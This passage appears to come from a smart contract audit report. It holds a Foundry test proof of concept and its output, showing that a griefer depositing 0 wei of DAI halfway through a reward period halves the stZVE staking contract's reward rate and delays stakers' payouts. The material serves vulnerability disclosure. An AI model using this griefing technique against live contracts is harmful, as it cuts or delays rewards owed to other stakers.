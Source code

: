 ```js
            uint256 periodFinish,
            uint256 rewardRate,
            uint256 lastUpdateTime,
            uint256 rewardPerTokenStored
        ) = stZVE.rewardData(DAI);
        emit log_named_decimal_uint("rewardRate1", rewardRate, 14);
        uint256 oldRate = rewardRate;
        uint256 t_end = periodFinish;


        hevm.warp(t + (t_end - t)/2); // midway to `periodFinish`
        uint256 rewardEarnedHalfway = stZVE.earned(address(sam), DAI);
        
        // store a snapshot we can return to later
        uint256 snapshot = vm.snapshot();

        hevm.warp(t_end); // to `periodFinish`
        uint256 rewardEarned = stZVE.earned(address(sam), DAI);
        uint256 rewardEarnedDelta1 = rewardEarned - rewardEarnedHalfway;
        emit log_named_decimal_uint("rewardEarnedDelta1", rewardEarnedDelta1, 18);

        // Let's examine the contrasting case when griefer deposits 0 wei at halftime
        vm.revertTo(snapshot);
        depositReward_DAI(address(stZVE), 0); // @audit-info : griefer deposits 0 wei
        (
            rewardsDuration,
            periodFinish,
            rewardRate,
            lastUpdateTime,
            rewardPerTokenStored
        ) = stZVE.rewardData(DAI);
        emit log_named_decimal_uint("rewardRate2", rewardRate, 14);
        assertLe(rewardRate, oldRate / 2); // @audit : reward rate got reduced by half

        hevm.warp(t_end); // to `periodFinish`
        rewardEarned = stZVE.earned(address(sam), DAI);
        uint256 rewardEarnedDelta2 = rewardEarned - rewardEarnedHalfway;
        emit log_named_decimal_uint("rewardEarnedDelta2", rewardEarnedDelta2, 18);
        assertLt(rewardEarnedDelta2, rewardEarnedDelta1); // @audit : reward is reduced by half for this period (got delayed)
    }
```

<br>

Output:
```text
[PASS] test_t0x1c_depositReward() (gas: 430612)
Logs:
  rewardRate1: 3.85802469135802
  rewardEarnedDelta1: 499.999999999999390000
  rewardRate2: 1.92901234567901       <--------- got halved as compared to `rewardRate1`
  rewardEarnedDelta2: 249.999999999999695000  <--------- got halved as compared to `rewardEarnedDelta1`
```
